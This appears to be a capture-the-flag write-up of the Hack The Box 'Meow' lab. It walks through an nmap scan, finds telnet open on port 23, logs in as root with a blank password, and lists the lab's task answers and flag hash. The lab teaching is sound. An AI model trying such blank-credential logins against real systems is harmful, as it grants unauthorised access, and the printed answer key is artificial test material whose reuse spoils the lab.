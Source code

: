 # Meow

---

## Enumeration

Before starting the enumeration process I always store the IP Address of the victim machine in a environment variable to refer back to in case there's something else occupying my clipboard:
```
$ export IP = 10.129.200.97
```
and just in case:
```
$ echo $IP
10.129.200.97
```

To make sure the target machine is alive and everything is setup correctly, I use `ping` command to see if i get any response from the target machine:
```
$ ping $IP
PING 10.129.200.97 (10.129.200.97) 56(84) bytes of data.
64 bytes from 10.129.200.97: icmp_seq=1 ttl=63 time=68.3 ms
64 bytes from 10.129.200.97: icmp_seq=2 ttl=63 time=67.6 ms
64 bytes from 10.129.200.97: icmp_seq=3 ttl=63 time=68.4 ms
64 bytes from 10.129.200.97: icmp_seq=4 ttl=63 time=68.6 ms
64 bytes from 10.129.200.97: icmp_seq=5 ttl=63 time=79.0 ms
```
Next step I start scanning the target's open ports and services running on it using [nmap](https://nmap.org) with the `-sV` flag to determine the name of the identified service and its description, `-p-` to scan all possible ports, `-v` for verbose output and more information about the scanning process, `-oN` to save the output to a file.
```
$ nmap -sV -sC -p- -v -oN scan.nmap $IP
```

after the scan is complete, here's the result:
```
Nmap scan report for 10.129.200.97
Host is up (0.19s latency).
Not shown: 65534 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
23/tcp open  telnet  Linux telnetd
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

The result shows the only open port is 23 and running a service called [Telnet](https://en.wikipedia.org/wiki/Telnet), this link takes you to the official wiki page, and it does a pretty good job at explaining it.

---

## Telnet 

I tried connecting to the Telnet server using `telnet` command in the terminal window:
```
$ telnet $IP
```
It worked and I connected to the server and got greeted with a login phase:
```
Trying 10.129.200.97...
Connected to 10.129.200.97.
Escape character is '^]'.

  █  █         ▐▌     ▄█▄ █          ▄▄▄▄
  █▄▄█ ▀▀█ █▀▀ ▐▌▄▀    █  █▀█ █▀█    █▌▄█ ▄▀▀▄ ▀▄▀
  █  █ █▄█ █▄▄ ▐█▀▄    █  █ █ █▄▄    █▌▄█ ▀▄▄▀ █▀█


Meow login:
```

I tried different usernames with no password `admin`, `administrator`, `guest`, `meow` and all went through with no success. However, after trying the username `root` and a blank password, I successfully had access to a terminal of the target machine.

```
root@Meow:~# ls
flag.txt  snap
root@Meow:~# cat flag.txt
b40abdfe23665f766f9c61ecba8a4c19
root@Meow:~# 
```

---

## Tasks & Answers

Task 1 > What does the acronym VM stand for?
: Virtual Machine.

Task 2 > What tool do we use to interact with the operating system in order to issue commands via the command line, such as the one to start our VPN connection? It's also known as a console or shell.
: Terminal.

Task 3 > What service do we use to form our VPN connection into HTB labs?
: openvpn.

Task 4 > What is the abbreviated name for a 'tunnel interface' in the output of your VPN boot-up sequence output?
: by using `ifconfig` in the terminal window: `tun`.

Task 5 > What tool do we use to test our connection to the target with an ICMP echo request?
: ping.

Task 6 > What is the name of the most common tool for finding open ports on a target?
: [nmap](https://nmap.org).

Task 7 > What service do we identify on port 23/tcp during our scans?
: [Telnet](https://en.wikipedia.org/wiki/Telnet).

Task 8 > What username is able to log into the target over telnet with a blank password?
: root.

Flag 
: b40abdfe23665f766f9c61ecba8a4c19.

---

## Vulnerability

This machine was pretty straight forward, this vulnerability was obvious that Telnet service had a user with root privs that can be accessed without a password, giving users - especially root - a password would come in handy.

```
root@Meow:~# sudo -l
Matching Defaults entries for root on Meow:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User root may run the following commands on Meow:
    (ALL : ALL) ALL
```

---

## TIP

If you get stuck in the Telnet terminal and CTRL+C does not spare you, in the very beginning of the connection you were prompted with `Escape character is '^]'`.

`'^]'` means ctrl + ] (right bracket), you'll be taken to the telnet prompt where you can type `quit` or simply `q` to terminate the connection.

```
root@Meow:~# 
telnet> quit
Connection closed.
```

---